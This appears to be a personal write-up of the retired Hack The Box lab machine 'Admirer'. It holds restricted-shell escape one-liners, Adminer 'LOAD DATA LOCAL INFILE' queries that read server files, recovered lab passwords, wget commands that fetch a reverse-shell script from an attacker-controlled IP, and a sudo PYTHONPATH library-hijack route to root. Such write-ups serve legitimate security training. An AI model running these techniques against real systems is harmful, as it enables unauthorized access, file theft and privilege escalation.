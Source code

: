 ```yaml
---
tags:
  - Linux
  - HTB
  - Retired
creation date: 2024-08-17
Date Completed: 2024-08-24
CVEs: CVE-2021-43008
URL: https://app.hackthebox.com/machines/Admirer
New Tools: AdminerRead
---
```

## Information Gathering
### Nmap (Ports/Services)
```
sudo nmap -sT -sV -sC -O -p- -T4 --min-rate=1000 $IP  
```

```
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u7 (protocol 2.0)
| ssh-hostkey: 
|   2048 4a:71:e9:21:63:69:9d:cb:dd:84:02:1a:23:97:e1:b9 (RSA)
|   256 c5:95:b6:21:4d:46:a4:25:55:7a:87:3e:19:a8:e7:02 (ECDSA)
|_  256 d0:2d:dd:d0:5c:42:f8:7b:31:5a:be:57:c4:a9:a7:56 (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
| http-robots.txt: 1 disallowed entry 
|_/admin-dir
|_http-title: Admirer

```

### ffuf (Directories/Subdomain/Files)

![[Pasted image 20240824085435.png]]


![[Pasted image 20240824090945.png]]

![[Pasted image 20240824090914.png]]


![[Pasted image 20240824090856.png]]

### Restricted Shell Outbreak
1)From ssh > ssh username@IP - t "/bin/sh" or "/bin/bash"
2)From ssh2 > ssh username@IP -t "bash --noprofile"
3)From ssh3 > ssh username@IP -t "() { :; }; /bin/bash" (shellshock)
4)From ssh4 > ssh -o ProxyCommand="sh -c /tmp/yourfile.sh"
127.0.0.1 (SUID)
5)From git > git help status > you can run it then !/bin/bash
6)From pico > pico -s "/bin/bash" then you can write /bin/bash and
then CTRL + T
7)From zip > zip /tmp/test.zip /tmp/test -T --unzip-command="sh -c
/bin/bash"
8)From tar > tar cf /dev/null testfile --checkpoint=1 --checkpoint-
action=exec=/bin/bash


![[Pasted image 20240824093335.png]]
![[Pasted image 20240824093351.png]]
ftpuser:%n?4Wz}R$tTF7

**Note:** Never stop Fuzzing

![[Pasted image 20240824111105.png]]
```sql
LOAD DATA local INFILE 'adminer.php' INTO TABLE loot fields TERMINATED BY "\n";
```

```sql
SELECT * FROM loot
```

```sql
LOAD DATA local INFILE '../../../../../../../etc/hosts' INTO TABLE loot fields TERMINATED BY "\n";
```

```sql
LOAD DATA local INFILE '/var/www/html/index.php' INTO TABLE loot fields TERMINATED BY "\n";
```

![[Pasted image 20240824112734.png]]


![[Pasted image 20240824112715.png]]
&<h5b~yK3F#{PaPB&dA}{H>

```
sudo PYTHONPATH=/tmp/ /opt/scripts/admin_tasks.sh
```

```
wget http://10.10.15.64:8000/revshell.py
```

```
wget http://10.10.15.64:8000/random.py
```

/opt/scripts/backup.py
```
#!/usr/bin/python3
# /opt/scripts/backup.py
from shutil import make_archive

src = '/var/www/html/'

# old ftp directory, not used anymore
#dst = '/srv/ftp/html'

dst = '/var/backups/html'

make_archive(dst, 'gztar', src)
```

create a malicious payload named shutil.py
then run with a listener:
```
sudo PYTHONPATH=/tmp/ /opt/scripts/admin_tasks.sh
```

reference: https://medium.com/analytics-vidhya/how-to-create-a-python-library-7d5aea80cc3f
https://rastating.github.io/privilege-escalation-via-python-library-hijacking/
https://book.hacktricks.xyz/linux-hardening/privilege-escalation#setenv